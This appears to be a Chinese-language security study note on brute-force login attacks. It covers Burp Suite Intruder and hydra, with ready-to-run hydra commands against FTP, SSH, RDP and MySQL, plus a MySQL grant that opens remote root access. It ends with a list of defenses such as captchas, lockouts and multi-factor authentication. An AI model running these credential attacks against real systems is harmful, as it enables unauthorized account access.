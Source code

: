 # 暴力破解

例如 Burpsuit Intruder 爆破 http 协议请求内容

- C/S 架构暴力破解，使用 hydra
- B/S 架构暴力破解，Burpsuit 搞定


先用 nmap 扫描


**靶机**

bluecms


md5 爆破：https://cmd5.com   


## hydra

```
$ hydra 1.1.1.1 ftp -l admin1 -P ftp.txt -vV -f -e ns
$ hydra 1.1.1.2 ssh -l root -P ssh.txt -vV -e nsr -o save.log
$ hydra 1.1.1.3 rdp -l administrator -P rdp.txt -vV -f -e ns
$ hydra 1.1.1.4 mysql -L users.txt -P mysql.txt -vV -f -vV -e nsr -o save.log
```

**字典**

```
/usr/share/wordlists
```



**开启 mysql 远程访问**

数据库管理工具 DataGrip

```
grant all privileges on *.* to root@'%' identified by 'pass123';
```


## 防御

1. 设计安全的验证码
2. 在前端生成验证码后端能验证验证码的情况下，对验证码对有效期和次数进行限制
3. 认证失败多次，锁账号、IP，不好
4. 使用多因子认证
5. 认证失败多次，给 captcha
6. 针对 c/s 暴力破解，限制登陆失败次数
